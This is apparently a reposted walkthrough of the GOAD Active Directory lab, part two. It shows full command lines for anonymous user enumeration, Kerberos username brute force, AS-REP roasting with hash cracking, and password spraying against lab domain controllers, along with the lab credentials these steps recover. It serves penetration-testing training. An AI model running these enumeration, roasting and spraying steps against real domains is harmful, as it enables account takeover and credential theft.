

> [!NOTE]
> Original post can be found here:
> https://mayfly277.github.io/posts/GOADv2-pwning-part2/

We have done some basic reconnaissance, now we will try to enumerate users and start to hunt credentials.

## Enumerate DC’s anonymously

### With NXC

```bash
nxc smb 192.168.56.11 --users
```


- We get some users with the description and get a first password as samwell.tarly got his password set up in description.

we could also retrieve the password policy before trying bruteforce 

```bash
nxc smb 192.168.56.11 --pass-pol
```


- The password policy show us that if we fail 5 times in 5 minutes we lock the accounts for 5minutes.

### With enum4linux

- We can confirm the anonymous listing on the NORTH DC also with Enum4linux :

```bash
enum4linux 192.168.56.11
```


- We get the user list like nxc


- We also get the password policy like nxc


- enum4linux also get the full domain user list by enumerating members of domain group

### With rpc call

- The anonymous listing is done with Remote Procedure Call on winterfell (192.168.56.11), so we could also do this with rpcclient directly.

```bash
rpcclient -U "NORTH\\" 192.168.56.11 -N
```


- Get all domain users:
```
net rpc group members 'Domain Users' -W 'NORTH' -I '192.168.56.11' -U '%'
```


## Enumerate DC’s anonymously - when anonymous sessions are not allowed

The Winterfell domain controller allow anonymous connection, this is the reason why we can list the domain users and groups. But nowadays that kind of configuration almost never happens. (On the opposite password in users description happens quite often x) ).

We can still enumerate valid users by bruteforcing them.

- First let’s create a user list:
```bash
curl -s https://www.hbo.com/game-of-thrones/cast-and-crew \| grep 'href="/game-of-thrones/cast-and-crew/'\| grep -o 'aria-label="[^"]*"' \| cut -d '"' -f 2 \| awk '{if($2 == "") {print tolower($1)} else {print tolower($1) "." tolower($2);} }' > got_users.txt
```

    
- We get the following list:
    
```
robert.baratheon
tyrion.lannister
cersei.lannister
catelyn.stark
jaime.lannister
daenerys.targaryen
viserys.targaryen
jon.snow
robb.stark
sansa.stark
arya.stark
bran.stark
rickon.stark
joffrey.baratheon
jorah.mormont
theon.greyjoy
samwell.tarly
renly.baratheon
ros
jeor.mormont
gendry
lysa.arryn
robin.arryn
bronn
grand.maester
varys
loras.tyrell
shae
benjen.stark
barristan.selmy
khal.drogo
hodor
lancel.lannister
maester.luwin
alliser.thorne
osha
maester.aemon
talisa.stark
brienne.of
davos.seaworth
tywin.lannister
stannis.baratheon
margaery.tyrell
ygritte
balon.greyjoy
roose.bolton
gilly
podrick.payne
melisandre
yara.greyjoy
jaqen.h’ghar
grey.worm
beric.dondarrion
missandei
mance.rayder
tormund
ramsay.snow
olenna.tyrell
thoros.of
orell
qyburn
brynden.tully
tommen.baratheon
daario.naharis
oberyn.martell
myrcella.baratheon
obara.sand
nym.sand
tyene.sand
high.sparrow
trystane.martell
doran.martell
euron.greyjoy
lady.crane
high.priestess
randyll.tarly
izembaro
brother.ray
archmaester.ebrose
```
    
- Let’s try this list on meereen.essos.local domain controller and kingslanding.sevenkingdoms.local

```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='sevenkingdoms.local',userdb=got_users.txt" 192.168.56.10
```


- Great we found 7 valid users on sevenkingdoms.local!
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='essos.local',userdb=got_users.txt" 192.168.56.12
```


- And we found 4 valid users on sevenkingdoms.local
    
- As we can see on the [nmap page](https://nmap.org/nsedoc/scripts/krb5-enum-users.html) :
    
    Discovers valid usernames by brute force querying likely usernames against a Kerberos service. When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the username was invalid. Valid usernames will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, signaling that the user is required to perform pre authentication.
    
- In summary, the badpwdcount will not be increased when you bruteforce users.
- Let’s verify it :

```bash
nxc smb -u khal.drogo -p horse -d essos.local 192.168.56.12 --users
```


## List guest access on shares

- Let’s take a look on guest access to the smb shares:

- We launch the following command with NXC :

```
nxc smb 192.168.56.10-23 -u 'a' -p '' --shares
```    

    
- And we found some anonymous shares with READ/WRITE permissions 


## User but no credentials

We got users now try to get password for them.

### ASREP - roasting

- We create a users.txt file with all the usernames previously found on north.sevenkingdoms.local:

```
sql_svc
jeor.mormont
samwell.tarly
jon.snow
hodor
rickon.stark
brandon.stark
sansa.stark
robb.stark
catelyn.stark
eddard.stark
arya.stark
krbtgt
vagrant
Guest
Administrator
```

- We now could try asreproasting on all the users with impacket:

```bash
impacket-GetNPUsers north.sevenkingdoms.local/ -no-pass -usersfile users.txt
```


```bash
nxc ldap 192.168.56.11 -u users.txt -p '' --asreproast hashes.north.txt
```


- We get a ticket for brandon.stark and we will try to break it as the user don’t require kerberos pre-authentication

```
hashcat -m 18200 asrephash /usr/share/wordlists/rockyou.txt
```


- We found the user password “iseedeadpeople”
    
- We now have two couple of credentials :
    
    - samwell.tarly:Heartsbane
    - brandon.stark:iseedeadpeople

### Password Spray

- We could try the classic user=password test

```bash
cme smb 192.168.56.11 -u users.txt -p users.txt --no-bruteforce
```


- We also could use sprayhound (https://github.com/Hackndo/sprayhound)
```
sudo apt install sprayhound
```

```bash
sprayhound -U users.txt -d north.sevenkingdoms.local -dc 192.168.56.11 --lower
```


> When you are doing password spray, be careful you can lock accounts!

- We could try sprayhound with a valid user to avoid locking account (option -t to set the number of try left)

```bash
sprayhound -U users.txt -d north.sevenkingdoms.local -dc 192.168.56.11 -lu hodor -lp hodor --lower -t 2
```


- See the status of bruteforce
```bash
nxc smb -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local 192.168.56.11 --users
```


- We now got three couple of credentials :
    - samwell.tarly:Heartsbane (user description)
    - brandon.stark:iseedeadpeople (asreproasting)
    - hodor:hodor (password spray)
- Great, in the next part we will start to dig what to do with a valid user